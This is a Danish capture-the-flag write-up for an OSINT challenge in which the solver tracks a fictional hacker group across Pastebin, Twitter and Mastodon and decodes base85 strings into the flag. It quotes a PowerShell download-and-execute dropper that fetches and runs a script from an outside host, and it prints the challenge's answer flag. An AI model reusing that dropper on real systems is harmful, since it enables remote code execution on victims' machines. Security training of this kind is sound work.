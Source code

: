 # Writeup

Vi har brug for at finde info om `N1ss3b4nd3n` og dens medlemmer, og her er det naturligt at se, om noget kan fremfindes offentligt på nettet.

Opgaven er egentlig tiltænkt at forudsætte, man har løst [Nisseware: Loading](../nisseware-loading/) eller som minimum fundet frem til et af deres payloads hosted på pastebin.
Det er dog ikke strengt nødvendigt, da man også finder gruppens pastebin med en søgning på `N1ss3b4nd3n` med fx https://whatsmyname.app/ eller [sherlock](https://github.com/sherlock-project/sherlock), så opgaven kan også løses separat uden netværksanalyse og/eller reverse engineering.

Det nyeste payload linket fra GitHub er https://pastebin.com/raw/GdyerNX8, hvor følgende script er hosted:

```ps1
$fileUrl = "http://det.jul.det.cool/not_sus.ps1"
(New-Object System.Net.WebClient).DownloadFile($fileUrl, (Get-Location).Path + "\payload.ps1")
Start-Process (Get-Location).Path + "\payload.ps1"
```

Som nævnt i writeup for `Nisseware: Loading`, kan vi fjerne `/raw` fra URLen, for at se scriptet direkte på pastebin siden: https://pastebin.com/GdyerNX8.

![N1ss3b4nd3ns pastebin](img/pastebin.png)

Payloadet står som unlisted og er oprettet af brugeren `N1ss3b4nd3n` - vi kan klikke på brugernavnet og se, hvad de ellers har af bins: https://pastebin.com/u/N1ss3b4nd3n.

Her ligger kun en enkelt public bin: https://pastebin.com/hQcmjWHL, som dog virker yderst relevant:

```
Medlemsliste:
HEMMELIGT (chefen)
Lun73
G3mys3
HrM0rt3ns3n
Sk1pp3r
P1l
```

Vi har nu en liste af i hvert fald fem potentielle medlemmer af `N1ss3b4nd3n`, og her bør man jo lede efter spor på dem alle.
Dog er `P1l` meget kort og ikke særlig unikt og vil højest sandsynligt kun være falske positiver - samme gælder egentlig `Lun73`, de havde begge været lidt tarvelige at lægge relevant info på, men er selvfølgelig værd at undersøge, især hvis man ikke finder noget på de resterende. De mest unikke er umiddelbart `HrM0rt3ns3n` og `G3mys3`, så de er værd at starte med.

Der findes mange tilgængelig OSINT lookup tools, bl.a. command line værktøjet [sherlock](https://github.com/sherlock-project/sherlock), der virker *okay*, men tit har mange falske positiver og mangler. Især kan det være svært med sider, der kræver profil for overhovedet at lave opslag. Servicen [WhatsMyName](https://whatsmyname.app/) kan anbefales i stedet, her kan vi starte med at indsætte de to mest unikke usernames (med en newline efter det sidste!) og lave en søgning:

![WhatsMyName search result](img/whatsmyname.png)

På de to navne findes kun ét resultat på `Twitter`/`X`, der dog virker relevant med så unikt et username: https://twitter.com/HrM0rt3ns3n

![HrM0rt3ns3ns Twitter](img/twitter-profile.png)

Bingo! Helt klart relevant og vejen frem! `Hr. M0rt3ns3n` har syv posts i alt, hvoraf fire bare er reposts af memes o.l. (den første dog lidt relevant, en nyhed med password leak, et lille nudge til senere i `Nisseware: Infrastructure`). Hans nyeste personlige post er lidt et nudge til hans indblanding i `N1ss3b4nd3n` og shady forretninger:

![HrM0rt3ns3ns sidste post](img/twitter-last-post.png)

De foregående er dog noget mere relevante:

![HrM0rt3ns3ns første posts](img/twitter-first-post.png)

Her virker det til, han er rykket til Mastodon som mange andre, og han har postet et base64 encoded link:

```
aHR0cHM6Ly9tYXN0b2Rvbi5zb2NpYWwvQE0wcnQzbnMzbg==
= https://mastodon.social/@M0rt3ns3n
```

Han har altså brugt et lidt andet username på Mastodon, og derfor fandt vi det ikke med en search før. Smider man `M0rt3ns3n` i `WhatsMyName` finder den også Mastodon profilen (samt en række urelaterede falske positiver). Vi klikker os videre til https://mastodon.social/@M0rt3ns3n:

![M0rt3ns3ns Mastodon](img/mastodon-mortensen.png)

Her ser vi en række mere eller mindre relevante posts:

![M0rt3ns3ns 1. post](img/mastodon-1.png)

![M0rt3ns3ns 2. post](img/mastodon-2.png)

![M0rt3ns3ns 3. post](img/mastodon-3.png)

![M0rt3ns3ns 4. post](img/mastodon-4.png)

Første post peger på, at der måske er en anden relevant user, han her bare kalder `julle`.
Mon ikke, det er den user, vi ser i 2. post, som da også er den enste, han følger: `n1ss3far`.
Det post kobler også helt tydeligt `HrM0rt3ns3n` til `N1ss3b4nd3n` med hans egne ord.
Det 4. post tyder også på hans indblanding i angrebene mod legetøjsvirksomheder.

Sidst har vi i 3. post en bid encoded tekst, `:.$gaAh\%;0R$k_BJT`, og han nævner, det er encoded med en mere kompakt metode end default.
Med default refererer han nok til `base64`, hvor en anden mere kompakt og stadig velkendt og anvendt metode er `base85`.
Decoder vi med `base85` med fx [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base85('!-u',true,'z')&input=Oi4kZ2FBaFwlOzBSJGtfQkpU), får vi første halvdel af flaget: `NC3{f0ll0w_7h3`.

Så langt så godt! Men vi har nu identificeret endnu en bruger på Mastodon, `n1ss3f4r`, og fortsætter over på hans profil: https://mastodon.social/@n1ss3f4r

![N1ss3f4rs Mastodon](img/mastodon-nissefar.png)

Vi kigger ligeså hans posts igennem:

![Nissefars 1. post](img/mastodon-5.png)

![Nissefars 2. post](img/mastodon-6.png)

![Nissefars 3. post](img/mastodon-7.png)

Det peger ret eksplicit på, at han har droppet `mastodon.social` og er hoppet på `infosec.exchange`, hvor han er nem at finde på samme username: https://infosec.exchange/@n1ss3f4r

![Nissefars infosec.exchange](img/infosec-profil.png)

Her har han en række posts, hvoraf nogle er lidt interessante:

![Nissefars 1. post](img/infosec-1.png)

Filkryptering, videresalg af data, kryptovaluta, de har helt sikkert gang i ransomware.
Næste opslag ligner noget, vi har set før, mon ikke den "bekendte" er `HrM0rt3ns3n`:

![Nissefars 2. post](img/infosec-2.png)

Vi decoder igen med base85 og får 2. halvdel af flaget:

```
?[$0<F>I9J1h'oKFF=  ->  _wh1t3_w4bb1t}
```

Samler vi delene, har vi nu hele flaget: `NC3{f0ll0w_7h3_wh1t3_w4bb1t}`.
Så langt så godt! Vi ser lige de sidste posts igennem også:

![Nissefars 3. post](img/infosec-3.png)

Det første post hinter igen mod encryption og måske derfor ransomware - kan være, det er et godt tip at holde in mente, at han er lidt forvirret over block cipher modes!

Det næste er igen med til at bestyrke vores antagelse om, at `n1ss3f4r` er en væsentlig del af `N1ss3b4nd3n`, måske endda deres hemmelige leder, det virker nærliggende.

Sidst er der et post, der peger på, at `n1ss3f4r` måske har profiler på flere sider, og sandsynligvis nogle lidt ældre end Mastodon o.l.

Efterforskningen fortsætter i [Nisseware: Infrastructure](../nisseware-infrastructure/)!

**Flag**

`NC3{f0ll0w_7h3_wh1t3_w4bb1t}`
